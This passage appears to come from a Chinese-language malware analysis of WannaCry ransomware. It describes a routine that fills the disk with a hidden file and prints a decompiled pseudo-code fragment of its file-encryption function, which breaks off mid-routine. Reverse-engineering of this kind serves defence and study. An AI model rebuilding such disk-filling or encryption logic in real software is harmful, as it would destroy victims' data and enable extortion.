 这个函数 会在 $RECYCLE 下创建一个名为 hibsys.WNCRYT 的文件
并设置属性为隐藏，并循环往这个文件写入数据，知道磁盘空间不足

在我们的测试环境下，这个文件已经达到了 39个G

{% asset_img image19.png 19 %}

#### 6.2.2.3 EncryptFile 加密磁盘上的所有文件

```c
if ( a3 )                                     // 条件不成立  

{  

uDriveType = GetDriveTypeW;                 // 获取磁盘类型  

if ( GetDriveTypeW(DirectoryName) == DRIVE_CDROM )// 如果是CD驱动器直接返回  

return;  

InterlockedExchange(&Target, Value);        // 交换两个数  

goto LABEL_12;  

}  

if ( InterlockedExchangeAdd(&Target, 0) != Value )// 用于对一个32位数值执行加法的原子操作  

{  

v3 = 0;  

while ( !GetDiskFreeSpaceExW(               // 获取D盘的空余容量 如果失败直接返回  

DirectoryName,  

&FreeBytesAvailableToCaller,  

&TotalNumberOfBytes,  

&TotalNumberOfFreeBytes)  

|| !TotalNumberOfBytes.QuadPart )  

{  

Sleep(1000u);  

if ( ++v3 >= 30 )  

return;  

}  

uDriveType = GetDriveTypeW;  

if ( GetDriveTypeW(DirectoryName) != DRIVE_CDROM )// 获取磁盘类型  

{  

LABEL_12:  

if ( uDriveType(DirectoryName) == DRIVE_FIXED )// 如果磁盘类型是固定磁盘  

{  
```